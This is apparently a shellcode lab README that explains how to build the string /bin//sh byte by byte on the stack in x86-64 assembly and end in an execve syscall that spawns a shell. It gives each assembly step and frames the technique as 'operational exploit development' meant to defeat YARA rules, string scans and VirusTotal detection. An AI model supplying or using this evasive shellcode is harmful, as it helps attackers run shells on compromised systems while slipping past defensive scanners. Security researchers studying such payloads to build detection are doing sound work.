

# Lab 02 – Stack String Synthesis (Byte-wise Construction)

## Overview

This lab demonstrates an **evasion-oriented stack string construction technique**, where the target string (`/bin//sh`) is **never present statically** in the binary and is instead assembled **byte-by-byte at runtime**.

Unlike classic shellcode patterns, this approach prioritizes **signature resistance and bad-byte safety** over minimal instruction count.

---

## Technique Summary

* Stack space is allocated using a placeholder immediate value
* Each byte of the target string is written individually into stack memory
* No contiguous ASCII string exists in the binary
* Final execution relies solely on runtime-generated data

This design significantly reduces exposure to **static signature-based detection**.

---

## Key Implementation Details

### 1. Controlled Stack Allocation

```asm
push 0x11111111
```

* Allocates writable stack space without introducing null bytes
* Acts as a temporary placeholder
* Memory is safely overwritten in subsequent steps

This avoids:

* `.data` sections
* Global memory references
* Uninitialized stack usage

---

### 2. Byte-wise Runtime String Construction

```asm
mov byte [rsp+0], 0x2f
mov byte [rsp+1], 0x62
mov byte [rsp+2], 0x69
mov byte [rsp+3], 0x6e
mov byte [rsp+4], 0x2f
mov byte [rsp+5], 0x2f
mov byte [rsp+6], 0x73
mov byte [rsp+7], 0x68
```

* Each character of `/bin//sh` is written individually
* The full string **never exists statically**
* No recognizable ASCII sequences appear in the binary

This directly defeats:

* simple YARA rules
* `/bin/sh` string scans
* naïve heuristic detection

---

### 3. Signature Evasion Advantage

Classic shellcode often contains:

```
2f 62 69 6e 2f 2f 73 68
```

This lab **completely avoids**:

* `movabs` with ASCII immediates
* contiguous `/bin/sh` patterns
* common shellcode byte signatures

As a result, static scanners (including VirusTotal engines) report no detections.

---

### 4. ABI-Compliant Syscall Setup

```asm
lea rdi, [rsp]
xor esi, esi
xor edx, edx
push 0x3b
pop rax
syscall
```

* `rdi` → pointer to runtime-built string
* `rsi`, `rdx` → NULL (argv, envp)
* Correct Linux x86-64 syscall convention
* No dependency on libc or external symbols

---

## Tradeoffs & Design Intent

### Advantages

* Strong resistance to static detection
* Bad-byte–friendly construction
* Fully position-independent
* Suitable for constrained exploit environments

### Tradeoffs

* Increased instruction count
* Larger shellcode size
* Slightly more complex logic

This lab intentionally prioritizes **stealth and control** over brevity.

---

## Why This Matters

This technique reflects **real exploit payload design**, where:

* payloads must evade signatures
* static strings are forbidden
* memory constraints exist
* shellcode must survive inspection

It represents a step beyond educational shellcode and into **operational exploit development patterns**.

---


